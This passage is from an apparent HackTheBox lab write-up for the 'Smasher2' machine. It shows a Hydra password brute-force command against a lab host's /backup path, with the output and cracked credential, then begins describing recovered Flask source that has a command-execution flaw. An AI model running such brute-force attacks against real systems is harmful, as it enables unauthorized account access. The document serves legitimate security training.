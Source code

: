```
# hydra -l admin -P wordlist.txt 10.10.10.135 -t 32 http-get /backup
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-05 00:24:55
[DATA] max 32 tasks per 1 server, overall 32 tasks, 639677 login tries (l:1/p:639677), ~19990 tries per task
[DATA] attacking http-get://10.10.10.135:80/backup
[STATUS] 7725.00 tries/min, 7725 tries in 00:01h, 631952 to do in 01:22h, 32 active
[STATUS] 7830.67 tries/min, 23492 tries in 00:03h, 616185 to do in 01:19h, 32 active
[STATUS] 7795.57 tries/min, 54569 tries in 00:07h, 585108 to do in 01:16h, 32 active
[STATUS] 7838.53 tries/min, 117578 tries in 00:15h, 522099 to do in 01:07h, 32 active
[STATUS] 7856.03 tries/min, 243537 tries in 00:31h, 396140 to do in 00:51h, 32 active
[80][http-get] host: 10.10.10.135   login: admin   password: clarabibi
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-05 01:05:21
```

Password: `clarabibi`

I checked if that password was present in any other wordlist from SecLists, including the reduced rockyou list but I didn't find it there. It's only in the full rockyou list:

```
# grep -ri clarabibi /usr/share/seclists/
root@ragingunicorn:~# grep -ri clarabibi /usr/share/wordlists/rockyou.txt 
clarabibi
```

Ok, rant over.

Once I had the password, I checked out the `/backup` and found the source code for the authentication page on `wonderfulsessionmanager.smasher2.htb`

![](/assets/images/htb-writeup-smasher2/backup2.png)

## Bypassing the login prompt (unintended method)

The `auth.py` file is a Python Flask application that implements a few endpoints:

- `/login` presents the HTML page for logging in

![](/assets/images/htb-writeup-smasher2/code1.png)

- `/auth` handles the AJAX request from the login page

![](/assets/images/htb-writeup-smasher2/code2.png)

- `/assets` serves static content such as images

![](/assets/images/htb-writeup-smasher2/code3.png)

- `/api` clearly contains an RCE vector through the `subprocess` function, but it expects a key which is provided after logging in
